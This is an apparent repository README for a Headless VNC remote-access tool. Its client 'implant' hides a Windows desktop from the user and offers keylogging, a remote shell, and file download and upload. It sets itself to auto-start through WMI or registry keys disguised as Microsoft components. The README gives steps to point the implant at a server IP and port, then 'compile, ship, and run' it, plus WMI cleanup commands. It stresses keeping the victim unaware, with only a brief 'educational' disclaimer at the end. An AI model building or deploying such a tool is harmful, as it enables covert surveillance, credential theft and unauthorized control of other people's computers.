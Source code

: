 # Headless VNC (HVNC) Toolkit

> A **stealth-first** remote-administration framework that spins up an invisible Windows desktop in memory and lets you drive it like a regular VNC session—only without the tell-tale screen flicker or user-side pop-ups.  
> Built for red-team operators who need *eyes-on-glass* access with the subtlety of a ghost.

---

## Repository Layout

| Path     | Role | Notes |
|----------|------|-------|
| **`server/`** | Server-side component | Accepts inbound HVNC tunnels, multiplexes sessions, prints each connection in its own console |
| **`client/`** | Client implant | Creates the hidden desktop, hooks keyboard / mouse, relays frames & input events |

> ⚠️ *Every new connection opens in a **separate console window***—handy for parallel ops and clean log separation.

---

## Supported Commands

| Constant | Action |
|----------|--------|
| `CMD_START_EXPLORER`     | Launch **Windows Explorer** explorer.exe |
| `CMD_START_RUN`          | Open the classic **Run / cmd prompt** cmd.exe |
| `CMD_START_CHROME`       | Launch **Google Chrome** |
| `CMD_START_EDGE`         | Launch **Microsoft Edge** |
| `CMD_START_BRAVE`        | Launch **Brave** |
| `CMD_START_FIREFOX`      | Launch **Mozilla Firefox** |
| `CMD_START_IEXPL`        | Launch **Internet Explorer** |
| `CMD_START_POWERSHELL`   | Open **PowerShell** |
| `CMD_SHELL_OPEN`         | Begin an **interactive remote shell** |
| `CMD_SHELL_COMMAND`      | Send a command to a shell already open |
| `CMD_FILE_LIST`          | Enumerate **files / folders** in a directory |
| `CMD_FILE_DOWNLOAD`      | **Download** a file from the remote box |
| `CMD_FILE_UPLOAD`        | **Upload** a file to the remote box |
| `CMD_KEYLOGGER_START`    | Start keylogging |
| `CMD_KEYLOGGER_STOP`     | Stop keylogging |

---

## Getting Started

1. **Server**

   ```
   cd server
   python server.py
   The script will prompt for a **listening port** — use the same port as the client build.
   ```

2. **Client**

   *Edit* `client/main.cpp` – set:

   ```cpp
   constexpr auto HOST = "YOUR_SERVER_IP";
   constexpr uint16_t PORT = 4444;  // same as the server prompt
   ```

   Then compile, ship, and run.
   On first launch, the implant copies itself to:

   ```
   %LOCALAPPDATA%\Microsoft\Win32Components\
   ```

   and auto-starts at logon:

   * Admin → WMI subscription
   * Standard user → Run registry key

---

## Testing & Cleanup

Need a sterile host after the demo? Use the included PowerShell helper:

```
Remove artifacts, folders, autoruns
client\clean.ps1
```

### Manual WMI Check / Removal

```
Get-WmiObject -Namespace root\subscription -Class __EventFilter `
  -Filter "Name='Microsoft_Win32Filter'" | ForEach-Object { $_.Delete() }

Get-WmiObject -Namespace root\subscription -Class CommandLineEventConsumer `
  -Filter "Name='Microsoft_Win32Consumer'" | ForEach-Object { $_.Delete() }

Get-WmiObject -Namespace root\subscription -Class __FilterToConsumerBinding `
  | Where-Object { $_.Consumer -match 'Microsoft_Win32Consumer' } `
  | ForEach-Object { $_.Delete() }
```

Verify all gone:

```
Get-WmiObject -Namespace root\subscription -Class __FilterToConsumerBinding `
  | Where-Object { $_.Consumer -match 'Microsoft_Win32Consumer' } `
  | Format-List Filter, Consumer
```

---

## Why HVNC?

Traditional VNC mirrors the users active desktop—any mouse wiggle or window pop-up is visible. Headless VNC instead:

1. Creates a brand new, invisible desktop WinSta0\HVNC in memory.
2. Runs spawned processes inside that hidden session completely off-screen.
3. Streams the pixels or GDI diffs back to the operator with negligible latency.
4. Leaves the real user blissfully unaware—no taskbar flashes, no window focus steals.

In short: you get a **full UI foothold** with the stealth of a backdoor shell.

---

## OPSEC Highlights

* **Console-per-session** → easy kill-switch & minimal cross-noise.
* **Auto-persistence** adapts to privilege level WMI vs. registry.
* **Keylogger** runs in-process no DLL drop on disk.
* **WMI cleanup script** shipped for safe red-team eject.

Yes, theres more on the roadmap: TLS tunneling, clipboard sync, multi-monitor capture watch the commits!

---

## 🚫 Disclaimer

This repository is provided for **educational purposes only** and intended for **authorized security research**.
Any **unauthorized use**—including but not limited to illicit surveillance, system compromise, or privacy invasion—is **strictly prohibited**.


